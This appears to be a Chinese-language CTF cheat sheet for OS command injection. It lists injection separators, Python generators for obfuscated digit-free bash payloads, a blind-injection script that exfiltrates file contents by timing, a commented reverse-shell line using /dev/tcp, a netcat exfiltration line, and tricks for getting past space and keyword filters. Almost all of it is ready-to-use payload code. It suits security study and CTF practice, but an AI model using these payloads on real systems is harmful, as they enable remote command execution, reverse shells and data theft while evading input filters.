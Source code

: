 
## 基础注入

```SHELL
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc IP 5278`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```



| 变量名 | 含义                                |
| --- | --------------------------------- |
| $0  | 脚本本身的名字                           |
| $1  | 脚本后所输入的第一串字符                      |
| $2  | 传递给该shell脚本的第二个参数                 |
| $*  | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’ |
| $@  | 脚本后所输入的所有字符’westos’ ‘linux’ ‘lyq’ |
| $_  | 表示上一个命令的最后一个参数                    |
| $#  | # 脚本后所输入的字符串个数                    |
| $$  | 脚本运行的当前进程ID号                      |
| $!  | 表示最后执行的后台命令的PID                   |
| $?  | 显示最后命令的退出状态，0表示没有错误，其他表示由错误       |

##  `$#`构造无数字命令——bash环境

```PYTHON
n = dict()
n[0] = '0'
n[1] = '${##}'                                   #${##}计算#这个字符的长度为1，这里如果没有屏蔽!的话还可以用$((!$#))
n[2] = '$((${##}<<${##}))'                       #通过位运算得到2
n[3] = '$(($((${##}<<${##}))#${##}${##}))'       #通过二进制11转换为十进制得到3,4,5,6,7
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'
```

将`$#`转换为八进制，再由bash解析八进制转换为字符串

```PYTHON
import requests
n = dict()
# 构造0-7的数字
n[0] = '0' # 0
n[1] = '${##}' # 1
n[2] = '$((${##}<<${##}))' # 2
n[3] = '$(($((${##}<<${##}))#${##}${##}))' # 3
n[4] = '$((${##}<<$((${##}<<${##}))))' # 4
n[5] = '$(($((${##}<<${##}))#${##}0${##}))' # 5
n[6] = '$(($((${##}<<${##}))#${##}${##}0))' # 6
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))' # 7

f=''

def str_to_oct(cmd):                                #命令转换成八进制字符串
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o   
    return s

def build(cmd):                                     #八进制字符串转换成字符
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''

def get_flag(url,payload):                          #盲注函数
    try:
        data = {'cmd':payload}
        r = requests.post(url,data,timeout=1.5)
    except:
        return True
    return False

#弹shell
#print(build('bash -i >& /dev/tcp/your-ip/2333 0>&1'))

#盲注
#a='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}@'
# for i in range(1,50):
#     for j in a:
#         cmd=f'cat /flag|grep ^{f+j}&&sleep 3'
#         url = "http://ip/"
#         if get_flag(url,build(cmd)):
#             break
#     f = f+j
#     print(f)
```

##  `$?`构造——bash环境
```python
cmd='cat /flag'

payload='__=${?}&&___=$((++__))&&____=$((++___))&&_____=${?}&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```
##  `$(())`构造——bash环境
```PYTHON
cmd='cat /flag'

payload='__=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\\<\\<\\<\\$\\\''
for c in cmd:
        payload+=f'\\\\$((2#{bin(int(oct(ord(c))[2:]))[2:]}))'.replace('1','${__}').replace('2','${____}').replace('0','${_____}')

payload+='\\\''

print(payload)
```
## 通配符
`?` 匹配一个或多个字符
`*` 匹配多个字符

## 空格Bypass
- `${IFS}`
	- `cat${IFS}/flag`
- `$IFS`
	- `cat$IFS/flag`
- `cat</flag`
- `{cat,/flag}`
- `X=$'cat\x20/flag'&&$X`
```
IFS=,;`cat<<</flag`
```
- `A=/fl;B=ag;cat $A$B`

## 关键字Bypass
```
A=/fl;B=ag;cat $A$B
cat /fl${x}ag
cat /fl$(z)ag
```
### PATH 截取字符拼接执行

![](attachments/Pasted%20image%2020240405195044.png)

- `${PS2}` => `>`
- `${PS4` => `+`

### 引号隔断
- `cat /fl''ag`
- `cat '/fl''ag'`
- `cat "/fl""ag"`

### 反斜线隔断
`c\at /fl\ag`
## 文件读取姿势
- `diff /etc/passwd /flag`
- `paste /flag`
- `bzmore /flag`
- `bzless /flag`
- `static-sh /flag`

## Python
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`